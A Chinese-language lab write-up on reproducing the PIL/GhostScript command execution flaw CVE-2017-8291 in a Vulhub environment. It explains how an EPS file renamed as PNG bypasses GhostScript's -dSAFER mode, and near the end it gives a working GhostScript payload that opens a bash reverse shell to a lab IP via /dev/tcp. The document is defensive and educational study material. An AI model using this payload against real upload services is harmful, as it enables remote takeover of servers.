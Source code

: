 

# Python PIL 远程命令执行漏洞 CVE-2017-8291 

## 漏洞描述

Python中处理图片的模块PIL（Pillow），因为其内部调用了GhostScript而受到GhostButt漏洞（CVE-2017-8291）的影响，造成远程命令执行漏洞。

漏洞详情：

- http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/

## 漏洞原理

PIL内部根据图片头（Magic Bytes）判断图片类型，如果发现是一个eps文件（头为`%!PS`），则分发给`PIL/EpsImagePlugin.py`处理。

在这个模块中，PIL调用了系统的gs命令，也就是GhostScript来处理图片文件：

```python
command = ["gs",
            "-q",                         # quiet mode
            "-g%dx%d" % size,             # set output geometry (pixels)
            "-r%fx%f" % res,              # set input DPI (dots per inch)
            "-dBATCH",                    # exit after processing
            "-dNOPAUSE",                  # don't pause between pages,
            "-dSAFER",                    # safe mode
            "-sDEVICE=ppmraw",            # ppm driver
            "-sOutputFile=%s" % outfile,  # output file
            "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                            # adjust for image origin
            "-f", infile,                 # input file
            ]

# 省略判断是GhostScript是否安装的代码
try:
    with open(os.devnull, 'w+b') as devnull:
        subprocess.check_call(command, stdin=devnull, stdout=devnull)
    im = Image.open(outfile)
```

虽然设置了`-dSAFER`，也就是安全模式，但因为GhostScript的一个沙盒绕过漏洞（GhostButt CVE-2017-8291），导致这个安全模式被绕过，可以执行任意命令。

另外，截至目前，GhostScript官方最新版9.21仍然受到这个漏洞影响，所以可以说：只要操作系统上安装了GhostScript，我们的PIL就存在命令执行漏洞。

## 环境搭建

Vulhub运行环境：

```
docker-compose up -d
```

运行后，访问`http://your-ip:8000/`即可看到一个上传页面。

## 漏洞复现

正常功能是我们上传一个PNG文件，后端调用PIL加载图片，输出长宽。但我们可以将可执行命令EPS文件后缀改成PNG进行上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查。

比如[poc.png](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2017-8291/poc.png)，进行上传，即可执行`touch /tmp/awesome_poc`。

![image-20220228145248709](./images/202202281452756.png)

将`touch /tmp/awesome_poc`命令改为反弹shell命令：

```
currentdevice null false mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1")
```

成功接收反弹shell：

![image-20220228162022990](./images/202202281620079.png)

